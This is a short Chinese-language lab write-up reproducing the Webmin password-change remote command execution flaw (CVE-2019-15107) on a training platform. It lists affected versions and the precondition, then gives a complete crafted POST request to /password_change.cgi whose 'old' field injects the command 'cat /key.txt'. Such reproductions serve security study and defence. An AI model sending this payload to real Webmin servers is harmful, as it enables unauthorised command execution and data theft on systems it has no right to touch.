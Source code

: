 # 0x00 复现环境
墨者学院->地址：https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe

# 0x01 影响版本
webmin <= 1.920

# 0x02 利用条件
需要开启密码重置功能，如下图  
![image](https://github.com/xuxuedong/yibudengtian-input-db/blob/master/000046_webmin%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2019-15107%EF%BC%89/0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x03 利用过程
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat%20/key.txt&new1=123456&new2=123456
```
说明：通常利用burp进行命令执行漏洞利用时，不能执行带有空格的命令，但此处可以

# 参考链接：  
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html
